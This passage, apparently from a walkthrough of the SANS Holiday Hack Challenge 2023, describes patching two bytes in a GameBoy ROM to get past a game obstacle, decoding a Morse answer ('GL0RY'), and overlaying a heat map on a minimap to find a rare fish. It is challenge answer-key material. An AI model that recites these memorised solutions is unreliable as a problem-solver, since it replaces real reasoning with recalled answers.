By visiting those domains, I can download a local copy of the GameBoy ROM files. Per the hint, we should take a look at the DIFFerences between the two versions. I used BeyondCompare to do this.

![](/docs/assets/images/gcv23.png)

Let's try changing some of the differences and loading the changed ROM into our emulator to see what happens. 

Game0 hex -> Game1 hex  - change in game

Successful Change 1:

0x02 -> 0x01 - After talking to T-Wiz you are moved to the top of the screen instead of down, we can change this in game1 and be able to get through T-Wizz

After T-Wizz telling me I cannot pass, I walk down to the bottom half of the game now.

![](/docs/assets/images/gcv24.png)

Successful Change 2:

0b80 -> 0400 - Exit the start on the top of the screen rather than the bottom, we can change this in game 1 and be able to exit the start on the bottom of the screen directly to the sparkling spot

After exiting orientation, I am located on the bottom of the game now.

![](/docs/assets/images/gcv25.png)

Room after entering the sparkling vortex.![](/docs/assets/images/gcv26.png)

If you interact with the radio on the right, a morse code message begins to play. After decoding the message, you reveal the answer for your badge.

Morse code audio

https://github.com/cmdncontrol/SANS-Holiday-Hack-Challenge-2023/assets/139015523/4a09b005-fb33-4c2e-aa59-38d765d31fe4

Morse code

```
--. .-.. ----- .-. -.--
```

Decoded

```
GL0RY
```

---

## Objectives: BONUS: Fishing Guide & BONUS: Fishing Mastery

If you inspect the game space and ensure you are set on the iframe while at see, you'll find a note for DEVs ONLY!

![](/docs/assets/images/dev.png)

If we visit

```
https://2023.holidayhackchallenge.com/sea/fishdensityref.html
```

We receive what appears to be heat maps of where the fish are located on the island...but there appears to be A LOT of fish varieties out there. We need some way to streamline our fishing endeavor. 

There's one fish that seems to have a very specific spot it can be caught in. The **Piscis Cyberneticus Skodo**, seems to be hyper located in one spot. After searching through the sea sourcecode some more it revealed.

```
https://2023.holidayhackchallenge.com/sea/assets/minimap.png
```

This image holds the minimap of the islands. I wonder if we can overlay the two images, the heatmap for Cyberneticus and the islands to find our target fishing area...

After inverting the minimap colors, ensuring the same size images, and overlaying we get the following image

![](/docs/assets/images/Cyberheat.png)

We now know we need to fish right under the head of the goose on Steampunk island to find this prestigious fish! 

---
